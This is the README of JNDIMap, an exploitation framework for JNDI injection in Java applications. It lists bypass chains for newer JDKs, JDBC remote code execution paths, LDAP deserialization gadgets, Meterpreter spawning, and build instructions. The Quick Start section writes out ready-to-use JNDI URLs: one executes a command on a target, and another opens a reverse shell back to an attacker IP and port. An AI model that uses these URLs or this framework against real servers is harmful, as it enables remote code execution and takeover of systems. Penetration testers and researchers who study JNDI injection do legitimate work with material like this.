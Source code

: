 <div align="center">
    <img src="img/logo.png" width="128" />
    <h1 align="center">JNDIMap</h1>
</div>

<p align="center">
<img alt="GitHub Repo stars" src="https://img.shields.io/github/stars/X1r0z/JNDIMap">
<img alt="GitHub forks" src="https://img.shields.io/github/forks/X1r0z/JNDIMap">
<img alt="Static Badge" src="https://img.shields.io/badge/Java-8-blue">
<img alt="GitHub Downloads (all assets, all releases)" src="https://img.shields.io/github/downloads/X1r0z/JNDIMap/total">
<img alt="GitHub Release" src="https://img.shields.io/github/v/release/X1r0z/JNDIMap">
<img alt="GitHub License" src="https://img.shields.io/github/license/X1r0z/JNDIMap">

<p align="center">
JNDIMap is a powerful JNDI injection exploitation framework that supports RMI, LDAP and LDAPS protocols, including various bypass methods for high-version JDK restrictions
</p>
<p align="center"><a href="README.md">简体中文</a> | English</p>
</p>

## 🚀 Quick Start

Download JNDIMap from the [Release](https://github.com/X1r0z/JNDIMap/releases) page, and pass the `-i` parameter to specify the external IP when running

```bash
java -jar JNDIMap-version.jar -i 10.0.0.1
```

Execute command or reverse shell on the target machine

```bash
rmi://10.0.0.1:1099/Basic/Command/open -a Calculator
ldap://10.0.0.1:1389/Basic/ReverseShell/10.0.0.1/1337
```

## 🚩 Features

- DNSLog
- Command execution
- Spawn reverse shell
- Spawn Meterpreter 
- Load custom Java bytecode
- Customize payload based on Nashorn JS engine
- BeanFactory Bypass
    - Tomcat
    - Groovy
    - XStream
    - SnakeYaml
    - BeanShell
    - MVEL
    - MLet (detect Java class)
    - NativeLibLoader (load native library)
- JDBC RCE (MySQL, PostgreSQL, H2 and Derby)
    - Commons DBCP
    - Tomcat DBCP
    - Tomcat JDBC
    - Alibaba Druid
    - HikariCP
- LDAP Deserialization:
    - CommonsCollections K1-K4
    - CommonsBeanutils183
    - CommonsBeanutils194
    - Jackson
    - Fastjson1
    - Fastjson2

## 📖 Documentation

> Full documentation: [USAGE.en.md](USAGE.en.md)

- [Usage](USAGE.en.md#usage)
- [Basic](USAGE.en.md#basic)
- [Notes on JNDI URL](USAGE.en.md#notes-on-jndi-url)
- [BeanFactory Bypass](USAGE.en.md#beanfactory-bypass)
    - [Tomcat ELProcessor](USAGE.en.md#tomcat-elprocessor)
    - [Groovy ClassLoader/Shell](USAGE.en.md#groovy-classloadershell)
    - [XStream](USAGE.en.md#xstream)
    - [SnakeYaml](USAGE.en.md#snakeyaml)
    - [BeanShell](USAGE.en.md#beanshell)
    - [MVEL](USAGE.en.md#mvel)
    - [MLet](USAGE.en.md#mlet)
    - [NativeLibLoader](USAGE.en.md#nativelibloader)
- [JDBC RCE](USAGE.en.md#jdbc-rce)
    - [MySQL](USAGE.en.md#mysql)
        - [MySQL JDBC Deserialization RCE](USAGE.en.md#mysql-jdbc-deserialization-rce)
        - [MySQL Client Arbitrary File Read](USAGE.en.md#mysql-client-arbitrary-file-read)
    - [PostgreSQL](USAGE.en.md#postgresql)
    - [H2](USAGE.en.md#h2)
    - [Derby](USAGE.en.md#derby)
        - [Derby SQL RCE](USAGE.en.md#derby-sql-rce)
        - [Derby Master-Slave Replication Deserialization RCE](USAGE.en.md#derby-master-slave-replication-deserialization-rce)
- [LDAP Deserialization](USAGE.en.md#ldap-deserialization)
- [Script](USAGE.en.md#script)
- [useReferenceOnly](USAGE.en.md#usereferenceonly)

## ⚙️ Compile

The version of [Releases](https://github.com/X1r0z/JNDIMap/releases) may be outdated, it is recommended to pull the source code and compile it yourself when using it (based on JDK 8)

```bash
git clone https://github.com/X1r0z/JNDIMap && cd JNDIMap
mvn package -Dmaven.test.skip=true
```

## 📷 References & Acknowledgements

[https://tttang.com/archive/1405/](https://tttang.com/archive/1405/)

[https://paper.seebug.org/1832/](https://paper.seebug.org/1832/)

[https://xz.aliyun.com/t/12846](https://xz.aliyun.com/t/12846)

[http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce](http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce)

[https://y4tacker.github.io/2023/03/20/year/2023/3/FastJson 与原生反序列化/](https://y4tacker.github.io/2023/03/20/year/2023/3/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/)

[https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson 与原生反序列化-二/](https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E4%BA%8C/)

[https://www.yulegeyu.com/2022/11/12/Java 安全攻防之老版本 Fastjson 的一些不出网利用/](https://www.yulegeyu.com/2022/11/12/Java%E5%AE%89%E5%85%A8%E6%94%BB%E9%98%B2%E4%B9%8B%E8%80%81%E7%89%88%E6%9C%ACFastjson-%E7%9A%84%E4%B8%80%E4%BA%9B%E4%B8%8D%E5%87%BA%E7%BD%91%E5%88%A9%E7%94%A8/)

[https://gv7.me/articles/2020/deserialization-of-serialvesionuid-conflicts-using-a-custom-classloader/](https://gv7.me/articles/2020/deserialization-of-serialvesionuid-conflicts-using-a-custom-classloader/)

[https://www.leavesongs.com/PENETRATION/use-tls-proxy-to-exploit-ldaps.html](https://www.leavesongs.com/PENETRATION/use-tls-proxy-to-exploit-ldaps.html)

[https://exp10it.io/2025/03/h2-rce-in-jre-17/](https://exp10it.io/2025/03/h2-rce-in-jre-17/)

[https://forum.butian.net/share/4414](https://forum.butian.net/share/4414)

[https://yzddmr6.com/posts/swinglazyvalue-in-webshell/](https://yzddmr6.com/posts/swinglazyvalue-in-webshell/)

## 🌟 Star History

<a href="https://www.star-history.com/#X1r0z/JNDIMap&Date">
 <picture>
   <source media="(prefers-color-scheme: dark)" srcset="https://api.star-history.com/svg?repos=X1r0z/JNDIMap&type=Date&theme=dark" />
   <source media="(prefers-color-scheme: light)" srcset="https://api.star-history.com/svg?repos=X1r0z/JNDIMap&type=Date" />
   <img alt="Star History Chart" src="https://api.star-history.com/svg?repos=X1r0z/JNDIMap&type=Date" />
 </picture>
</a>